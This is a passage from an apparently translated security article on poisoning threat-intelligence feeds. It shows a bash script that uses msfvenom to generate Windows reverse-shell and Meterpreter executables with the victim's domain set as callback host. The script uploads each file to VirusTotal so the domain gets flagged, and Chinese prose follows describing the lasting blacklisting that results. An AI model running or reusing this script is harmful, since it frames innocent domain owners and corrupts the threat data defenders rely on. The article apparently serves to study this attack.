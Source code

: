 ```
	"windows/shell/reverse_tcp_allports"
	"windows/x64/meterpreter_reverse_http"
	"windows/x64/powershell_reverse_tcp"
	)
counter=0
#Iterate over the array
for i in "${payloads[@]}"
do
	#eval "msfvenom -p i LHOST=${victim_domain} LPORT=443 -f exe > /tmp/malware_sample_${counter}"
	#Generate malware samples to be uploaded
	msfvenom -p i LHOST=${victim_domain} LPORT=443 -f exe > /tmp/malware_sample_${counter}
	((counter++))
	echo "sample ${i} written to disk in /tmp"
	#upload files to virustotal for injection
	echo "uploading sample ${counter} to virustotal.com..."
	curl --request POST \
	 --url [https://www.virustotal.com/api/v3/files](https://www.virustotal.com/api/v3/files) \
	 --header "x-apikey: ${vt_api}" \
     --form file=@/tmp/malware_sample_${counter}
	echo "Waiting 10 seconds..."
	sleep 10
done
```

随着时间的推移，初始冲击后的域名最终被列入白名单；但即使到了今天，仍然有 2 家供应商仅仅因为之前的恶意软件文件关联检测就将客户的域列入黑名单。这种缓慢的衰退速度，尤其是如果不采取行动或不加制止，类似于盗窃信用卡是一个受害者的身份盗窃。如果威胁情报是数据摄取的主要来源，影响也可以在长期[机器学习模型](https://ebiquity.umbc.edu/_file_directory_/papers/893.pdf)中持续更久。

你可能会怀疑这是否还有可能；出于本文的目的，我们再次尝试了相同的方法，这一次明显更难将域名本身列入黑名单，甚至在 VirusTotal 上作为 IOC 提及。注意:它不一定是 VirusTotal，可以是任何数量的 CTI 社区，如 AlienVault OTX、Anomali、ThreatStream，甚至是[新兴威胁 Snort 签名](https://doc.emergingthreats.net/bin/view/Main/EmergingFAQ)。

![](img/89214d83cd29967e369879b2da513b8a.png)![](img/3847dc72ac6d64d8d26e4ef1f0e579ff.png)
